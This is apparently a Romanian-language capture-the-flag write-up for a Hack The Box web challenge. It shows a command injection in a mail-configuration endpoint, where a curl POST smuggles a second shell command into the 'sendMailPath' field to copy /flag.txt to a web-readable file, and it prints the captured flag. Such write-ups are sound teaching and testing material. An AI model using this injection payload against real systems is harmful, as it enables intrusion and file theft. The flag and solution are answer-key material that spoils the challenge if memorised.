

Sarcina:
```
In the dead of night, an eerie silence envelops the town, broken only by the faintest of echoes—whispers in the void.
A phantom mailer is sending out silent commands, unseen and unheard, manipulating systems from the shadows.
The townsfolk remain oblivious to the invisible puppeteer pulling their strings. Legends hint that sending the right silent message back could reveal hidden secrets.
Can you tap into the darkness, craft the perfect unseen command, and shut down the malevolent force before it plunges the world into chaos?
```

Acesam sarcina noastră și verificam ce-ne oferă acest site:



AHA este am văzut care este punctul de intrare este o vulnerabilitate de tipul `Commond Injection`:

```
curl -X POST http://94.237.58.171:57966/update -d "from=G&email=support%40void-whispers.htb&sendMailPath=%2Fusr%2Fsbin%2Fsendmail%3BIFS%3D%24%27%5Cn%27%3B%2Fbin%2Fcat%24IFS%2Fflag.txt%3E%2Fwww%2Fflag_output.txt&mailProgram=sendmail" 
{"message":"Config updated successfully!","status":"success"} 
```
Dupa ce am injectat comanda verificam fișierul `config.json` ca să verificăm dacă comanda a fost injectată:
```
curl http://94.237.58.171:57966/config.json
{"from":"G","email":"support@void-whispers.htb","sendMailPath":"\/usr\/sbin\/sendmail;IFS=$'\\n';\/bin\/cat$IFS\/flag.txt>\/www\/flag_output.txt","mailProgram":"sendmail"}
```
Acesăm fișierul care conține și flagul:
```
curl http://94.237.58.171:57966/flag_output.txt
HTB{c0mm4nd_1nj3ct10n_4r3_3457_70_f1nD!!_6ac6367a04880c5fb3f7802fd994f833}
```
Flagul este: `HTB{c0mm4nd_1nj3ct10n_4r3_3457_70_f1nD!!_6ac6367a04880c5fb3f7802fd994f833}`